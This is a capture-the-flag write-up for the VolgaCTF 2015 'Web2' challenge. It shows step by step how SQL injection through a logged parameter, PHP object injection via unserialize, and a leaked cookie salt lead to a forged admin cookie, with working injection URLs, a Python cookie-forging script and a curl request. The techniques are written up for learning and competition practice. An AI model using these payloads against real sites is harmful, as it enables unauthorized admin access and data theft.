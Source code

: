 # VolgaCTF 2015: Web2

**Category:** Web
**Points:** 200
**Description:** 

> Find the key!
> http://web2.2015.volgactf.ru/
> 
> Hints
> 
> 1. Find the logs!

## Write-up

We're presented with a rather empty-looking website called 'HackBlog'. No further links to other pages and the html-source doesn't provide any clues. Let's try robots.txt:

>User-agent: *
>
>Disallow: /
>
>Disallow: /SecretAdminPanel

Okay, lets try /SecretAdminPanel then we get:

>Secret Admin Panel
>Forbidden

Okay, so we need to become admin somehow. The first thing to notice here is that when a GET-request to SecretAdminPanel is made, a cookie called 'PHPSESS' is set with the following value: 

>```
>%7B%22isAdmin%22%3Afalse%7D0afb5cf5c7d66587da7c811767250458	
>```

This seems to be a json-object with a md5-hash concatenated:
>{"isAdmin":false}<hash>

The hash serves as verification that the json-object is not tampered with. Simply md5-ing the json does not equal the hash so we're in the dark. Either we have to brute-force some salt or we have to find something else to exploit and retreive the salt with..

Then the first hint came: "Find the logs!"

Hmm, trying /logs presents us with a page that seems to var_dump multiple arrays corresponding to our previous requests to /SecretAdminPanel, notably the IP is logged and an empty key called 'params'

Lets try requesting SecretAdminPanel with a param:

> /SecretAdminPanel?a=b

We get

>Forbidden
>Don't attempt to hack, all requests will be logged.

And now /logs shows:

>```
>array(2) {
>  ["ip"]=>
>  string(13) "13.37.13.37"
>  ["params"]=>
>  array(1) {
>    ["a"]=>
>    string(1) "b"
>  }
>}
>```

Hmm? I wonder if we can inject something here? 
After some tampering i got an error with: 

http://web2.2015.volgactf.ru/SecretAdminPanel?a[a%27]

>Forbidden
>Don't attempt to hack, all requests will be logged.
>Error: unrecognized token: "";s:0:"";}}')"

That seems to be a serialized php-object, i wonder if its the param-object?

http://web2.2015.volgactf.ru/SecretAdminPanel?a[a%27]=ccccc

>Forbidden
>Don't attempt to hack, all requests will be logged.
>Error: near "";s:5:"": syntax error

Seems like it! the s:0 changed to s:5 when entering 5 chars into ?a

So what now? We most probably are injecting into a sql query, 

http://web2.2015.volgactf.ru/SecretAdminPanel?a[-1%27);select%20*;--

>Error: no tables specified

Bingo!

After some searching i found out that logs is the only table in the database, with 2 columns: ip and params

Lets try to insert our own serialized sting and see if it gets unserialized:

$php -r 'var_dump(serialize(array("smoke"=>"leet", "everyday")));'
string(48) "a:2:{s:5:"smoke";s:4:"leet";i:0;s:8:"everyday";}"

Insert it with:

http://web2.2015.volgactf.ru/SecretAdminPanel?a[a%27);insert%20into%20logs%20values%20(1,%20%27a:2:{s:5:%22smoke%22;s:4:%22leet%22;i:0;s:8:%22everyday%22;}%27)--

And request /logs again:

>```
>array(2) {
>  ["ip"]=>
>  string(1) "1"
>  ["params"]=>
>  array(2) {
>    ["smoke"]=>
>    string(4) "leet"
>    [0]=>
>    string(8) "everyday"
>  }
>}
>```

Nice! so, lets try an object:

> $ php -r 'class SomeObject {};var_dump(serialize(new SomeObject()));'
> string(22) "O:10:"SomeObject":0:{}"

>```
>array(2) {
>  ["ip"]=>
>  string(1) "1"
>  ["params"]=>
>  object(__PHP_Incomplete_Class)#7 (1) {
>    ["__PHP_Incomplete_Class_Name"]=>
>    string(10) "SomeObject"
>  }
>}
>```

Allright! Definitely an unserialize(); .. almost there.. now.. what object could we be interested in? Remember, to become admin we most likely need to find some sort of secret cookie salt value, so let's just try Session or something..

> O:7:"Session":0:{}

http://web2.2015.volgactf.ru/SecretAdminPanel?a[a%27);insert%20into%20logs%20values%20(1,%20%27O:7:%22Session%22:0:{}%27)--

>```
>array(2) {
>  ["ip"]=>
>  string(1) "1"
>  ["params"]=>
>  object(Session)#7 (2) {
>    ["cookieSalt":"Session":private]=>
>    string(20) "nO97M0Za6cu9wDC72VVv"
>    ["params":"Session":private]=>
>    array(0) {
>    }
>  }
>}
>```

Cool! Thats the cookieSalt we're looking for.. lets verify and generate a valid cookie where isAdmin=true:

>```python
>#!/usr/bin/env python
>
># PHPSESS=%7B%22isAdmin%22%3Afalse%7D0afb5cf5c7d66587da7c811767250458
>import hashlib
>import string 
>
>
>payload = '{"isAdmin":false}'
>orig_hash = "0afb5cf5c7d66587da7c811767250458"
># assume 0afb5cf5c7d66587da7c811767250458 is md5
>
># it could be either md5, md4, md2, haval128, ntlm
>
>def genhash(msg):
>	return hashlib.md5(msg).hexdigest()
>
>
>cookiesalt = "nO97M0Za6cu9wDC72VVv"
>print genhash("%s%s" % ( payload, cookiesalt ))
>wish = '{"isAdmin":true}'
>solution = genhash("%s%s" % ( wish, cookiesalt ))
>print "%s%s" % (wish, solution)
>```python

This gives us:

> {"isAdmin":true}59218ddbff65da5eb025f5ee88260c9e

By requesting /SecretAdminPanel with cookie PHPSESS=%7B%22isAdmin%22%3Atrue%7D59218ddbff65da5eb025f5ee88260c9e

>```bash
>curl --cookie "PHPSESS=%7B%22isAdmin%22%3Atrue%7D59218ddbff65da5eb025f5ee88260c9e" --url "http://web2.2015.volgactf.ru/SecretAdminPanel"
>```

We get the flag:

>```html
> <h1>Secret Admin Panel</h1>
> <p>
> {417a4c17bd3132bba864dac9edf4ae7a}</p>	</div>
> </body>
>```